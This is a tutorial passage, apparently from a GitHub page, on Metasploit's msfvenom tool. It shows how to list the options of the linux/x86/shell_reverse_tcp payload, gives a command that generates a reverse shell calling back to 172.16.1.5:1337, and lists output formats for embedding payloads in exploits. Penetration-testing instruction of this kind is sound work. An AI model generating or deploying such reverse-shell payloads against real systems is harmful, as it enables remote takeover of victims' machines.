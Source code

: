 These payloads are themselves metasploit modules, and as such have options associated with them. 

To list the options available for a payload, simply select the payload with `-p <payload>` and provide the `--payload-options` flag. 

```
root@mountain:~# msfvenom -p linux/x86/shell_reverse_tcp --payload-options
Options for payload/linux/x86/shell_reverse_tcp:


       Name: Linux Command Shell, Reverse TCP Inline
     Module: payload/linux/x86/shell_reverse_tcp
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 68
       Rank: Normal

Provided by:
    Ramon de C Valle <rcvalle@metasploit.com>
    joev <joev@metasploit.com>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
CMD    /bin/sh          yes       The command string to execute
LHOST                   yes       The listen address
LPORT  4444             yes       The listen port

Description:
  Connect back to attacker and spawn a command shell
[...]
```

Payload options are specified by passing them in the format `<option>=<value>` after specifying the payload. Any option that is required but is not set by default must be passed a value. In this reverse shell payload, we must set an `LHOST`, the address the payload will connect back to. We'll also set an `LPORT` which is set by default to `4444`. 

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.1.5 LPORT=1337`

If we were to run this command right now, it would dump the bytes of the payload to our console. This is undesirable. We most likely want to provide this as part of another exploit. We can have msfvenom provide us the payload to us in a format we can drop into the source of another program. This is done with the `-f` flag. MSF can provide payloads in two types of formats, executables and transforms.

To get the list of formats, run `msfvenom --help-formats`

```
root@mountain:~# msfvenom --help-formats
Executable formats
	asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats
	bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```
